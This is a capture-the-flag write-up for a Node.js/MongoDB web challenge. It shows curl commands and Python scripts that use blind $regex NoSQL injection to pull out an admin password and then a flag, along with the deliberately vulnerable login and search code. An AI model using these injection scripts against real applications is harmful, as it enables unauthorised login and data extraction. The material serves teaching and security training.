


# NoSQL True Warrior — Writeup

**Category:** Web
**Flag:** `Pioneers25{dummy_flag}` *(varies per deployment)*

---

## Challenge Overview

**NoSQL True Warrior** is a Node.js web application built with Express and MongoDB. It features an admin panel with a report search functionality. The application demonstrates a classic **NoSQL Injection** vulnerability where user input is passed directly into MongoDB queries, allowing attackers to extract sensitive data through blind regex-based enumeration.

> *"Master the ancient art of NoSQL queries. Only a true warrior can extract the secrets hidden within the database."*

**Objective:**
1. Bypass authentication to login as admin using blind NoSQL injection
2. Extract the flag from the internal reports using authenticated blind regex search



---

## Deployment

### Docker (Recommended)

```bash
docker-compose up --build
```

The challenge will be available at `http://localhost:8080`.

### Manual Setup

```bash
npm install
node server.js
```

> **Note:** Requires MongoDB instance running at `mongodb://127.0.0.1:27017`

---

## Reconnaissance & Blackbox Testing

### 1. Initial Exploration

Visiting the application presents a simple login page:



```
╔══════════════════════════════╗
║   NoSQL True Warrior Login   ║
║                              ║
║  Username: [input]           ║
║  Password: [input]           ║
║  [Login]                     ║
╚══════════════════════════════╝
```

### 2. Testing Normal Login

Attempting to login with common credentials fails:

```bash
curl -X POST http://localhost:8080/login \
  -d "username=admin&password=admin123"
```

**Response:**
```
Invalid credentials
```

### 3. Testing for NoSQL Injection

Since this appears to be a Node.js application (common for NoSQL databases), let's test for MongoDB operator injection. Express's `urlencoded` parser with `extended: true` allows nested object parameters:

```bash
# Test if the app accepts MongoDB query operators
curl -X POST http://localhost:8080/login \
  -d "username=admin" \
  -d "password[\$ne]=wrong" \
  -i
```

If this returns a different response than a normal failed login, we're onto something. Let's try the `$regex` operator with a prefix pattern:

```bash
curl -X POST http://localhost:8080/login \
  -d "username=admin" \
  -d "password[\$regex]=^a" \
  -i | grep -i location
```

Testing different starting characters, we notice that when the pattern matches the actual password prefix, we get an HTTP redirect (302) to `/admin/dashboard` instead of the normal "Invalid credentials" response. This is our **oracle** for blind extraction!

### 4. Understanding the Constraints

Through testing, we discover:
- The regex pattern must start with `^` (anchor character)
- Dollar signs (`$`) in the pattern are rejected
- We can build the password character-by-character using the redirect as confirmation

---

## Exploitation

### Stage 1: Extract Admin Password via Blind Regex

#### The Attack Strategy

We'll use **regex prefix matching** to extract the password one character at a time:

1. Try `password[$regex]=^a` → If admin password starts with `'a'`, we get a redirect
2. Try `password[$regex]=^b` → If admin password starts with `'b'`, we get a redirect
3. Continue until we find the first character
4. Move to `password[$regex]=^[found_char]a`, `^[found_char]b`, etc.
5. Repeat until the full password is extracted

#### Manual Testing

Test single characters:

```bash
curl -X POST http://localhost:8080/login \
  -d "username=admin" \
  -d "password[\$regex]=^Y" \
  -i | grep -i location
```

If you see `Location: /admin/dashboard`, the password starts with `'Y'`.

Continue building the prefix:

```bash
# Test second character
curl -X POST http://localhost:8080/login \
  -d "username=admin" \
  -d "password[\$regex]=^Y0" \
  -i | grep -i location

# Test third character
curl -X POST http://localhost:8080/login \
  -d "username=admin" \
  -d "password[\$regex]=^Y0U" \
  -i | grep -i location
```

#### Automated Extraction (Python)

```python
import requests
import string

BASE = "http://localhost:8080"
CHARSET = string.ascii_letters + string.digits + "_{}!@#-$"

def extract_password():
    prefix = ""

    while True:
        found = False
        for char in CHARSET:
            data = {
                "username": "admin",
                "password[$regex]": f"^{prefix}{char}"
            }

            r = requests.post(
                f"{BASE}/login",
                data=data,
                allow_redirects=False
            )

            if r.status_code in (301, 302, 303, 307, 308):
                prefix += char
                print(f"[+] Password so far: {prefix}")
                found = True
                break

        if not found:
            print(f"[✓] Complete password: {prefix}")
            return prefix

password = extract_password()
```

**Output:**
```
[+] Password so far: Y
[+] Password so far: Y0
[+] Password so far: Y0U
[+] Password so far: Y0U_
[+] Password so far: Y0U_H
[+] Password so far: Y0U_H4
[+] Password so far: Y0U_H4v
[+] Password so far: Y0U_H4v3
[+] Password so far: Y0U_H4v3_
[+] Password so far: Y0U_H4v3_n
[+] Password so far: Y0U_H4v3_n0
[+] Password so far: Y0U_H4v3_n0_
[+] Password so far: Y0U_H4v3_n0_3
[+] Password so far: Y0U_H4v3_n0_3n
[+] Password so far: Y0U_H4v3_n0_3n3
[+] Password so far: Y0U_H4v3_n0_3n3m
[+] Password so far: Y0U_H4v3_n0_3n3m1
[+] Password so far: Y0U_H4v3_n0_3n3m1e
[+] Password so far: Y0U_H4v3_n0_3n3m1es
[✓] Complete password: Y0U_H4v3_n0_3n3m1es
```

---

### Stage 2: Extract Flag via Authenticated Blind Search

#### Login with Extracted Password

```python
session = requests.Session()
response = session.post(
    f"{BASE}/login",
    data={
        "username": "admin",
        "password": "Y0U_H4v3_n0_3n3m1es"
    },
    allow_redirects=False
)
```

#### Extract Flag Character-by-Character

The flag is stored in a report titled `"Internal Flag Report"`. We can search for it using regex:

```python
def extract_flag(session):
    prefix = "Pioneers25{"
    charset = string.ascii_letters + string.digits + "_{}-!"

    while not prefix.endswith("}"):
        found = False
        for char in charset:
            params = {
                "title": "Internal Flag Report",
                "content[$regex]": f"^{prefix}{char}"
            }

            r = session.get(f"{BASE}/admin/search", params=params)

            if r.text.strip() == "FOUND":
                prefix += char
                print(f"[+] Flag so far: {prefix}")
                found = True
                break

        if not found:
            print("[!] Character not found, expanding charset...")
            break

    print(f"[✓] Complete flag: {prefix}")
    return prefix

flag = extract_flag(session)
```

**Output:**
```
[+] Flag so far: Pioneers25{d
[+] Flag so far: Pioneers25{du
[+] Flag so far: Pioneers25{dum
[+] Flag so far: Pioneers25{dumm
[+] Flag so far: Pioneers25{dummy
[+] Flag so far: Pioneers25{dummy_
[+] Flag so far: Pioneers25{dummy_f
[+] Flag so far: Pioneers25{dummy_fl
[+] Flag so far: Pioneers25{dummy_fla
[+] Flag so far: Pioneers25{dummy_flag
[+] Flag so far: Pioneers25{dummy_flag}
[✓] Complete flag: Pioneers25{dummy_flag}
```

---

## Automated Solver

Run the provided solver script:

```bash
python True_Warrior/solver/solver.py http://localhost:8080
```

The solver automates both stages and outputs the admin password and flag.

---

## Understanding the Source Code Vulnerabilities

Now that we've successfully exploited the application through blackbox testing, let's examine the source code to understand why our attacks worked.

### Understanding NoSQL Injection

MongoDB queries support **query operators** like `$regex`, `$gt`, `$ne`, etc. When user input is directly embedded into queries without proper sanitization, attackers can inject these operators.

### The Vulnerable Code

#### Stage 1: Login Endpoint

```javascript
app.post("/login", async (req, res) => {
  if (req.body.username !== "admin") return invalid(res);

  let pw = req.body.password;

  if (pw && typeof pw === "object") {
    const keys = Object.keys(pw);
    if (keys.length !== 1 || keys[0] !== "$regex") return invalid(res);
    if (typeof pw.$regex !== "string") return invalid(res);

    const userInput = pw.$regex;

    // Only allow prefix patterns starting with ^
    if (!userInput.startsWith("^")) return invalid(res);

    // Prevent infinite $$$ abuse
    if (userInput.includes("$")) return invalid(res);

    pw = { $regex: userInput };
  }

  const user = await db.collection("users").findOne({
    username: "admin",
    role: "admin",
    password: pw  // ← Vulnerable: regex operator in password matching
  });

  if (!user) return invalid(res);

  req.session.user = "admin";
  return res.redirect("/admin/dashboard");
});
```

**Key observations:**
- Accepts `password[$regex]` parameter
- Validates that regex starts with `^` (anchor to beginning)
- Blocks `$` symbols (except the initial `^`)
- If credentials match, **redirects** (HTTP 30x status)
- If credentials don't match, returns `"Invalid credentials"` (HTTP 200)

This creates a **timing side-channel** and **blind injection** vector.

#### Stage 2: Search Endpoint (Authenticated)

```javascript
app.get("/admin/search", requireAdmin, async (req, res) => {
  const title = typeof req.query.title === "string"
    ? req.query.title
    : "Internal Flag Report";

  let content = req.query.content;

  if (content && typeof content === "object") {
    if (content.$regex && content.$regex.startsWith("^") && !content.$regex.includes("$")) {
      content = { $regex: content.$regex };
    }
  }

  const query = { title };
  if (content !== undefined) query.content = content;

  const found = await db.collection("reports").findOne(query);

  return res.status(200).send(found ? "FOUND" : "NOT FOUND");
});
```

**Why the vulnerability exists:**
- Accepts `content[$regex]` parameter with same restrictions
- Binary response: `"FOUND"` or `"NOT FOUND"`
- User input is passed directly into MongoDB `findOne()` query
- The `$regex` operator allows pattern matching for character-by-character extraction

---

## Key Takeaways

### 1. NoSQL Injection is Different from SQL Injection

NoSQL databases use JSON-like query operators (`$regex`, `$gt`, `$ne`, etc.) instead of SQL syntax. This requires different injection techniques.

### 2. Object Parameter Parsing is Dangerous

Express's `extended: true` option allows nested objects like `password[$regex]=value`. Always validate and sanitize object keys.

### 3. Blind Injection Through Side Channels

Even without direct output, attackers can extract data through:
- **HTTP status codes** (redirect vs. no redirect)
- **Response content** ("FOUND" vs. "NOT FOUND")
- **Timing differences** (though not used here)

### 4. Regex Anchors Matter

The application requires `^` at the start of regex patterns, forcing prefix matching. This actually makes exploitation **easier** since we can incrementally build the string from left to right.

---

## Fun Fact

The challenge title "NoSQL True Warrior" is a play on the phrase "No true Scotsman" — a logical fallacy. Here, there's "no true warrior" who can defend against NoSQL injection without proper input validation! ⚔️
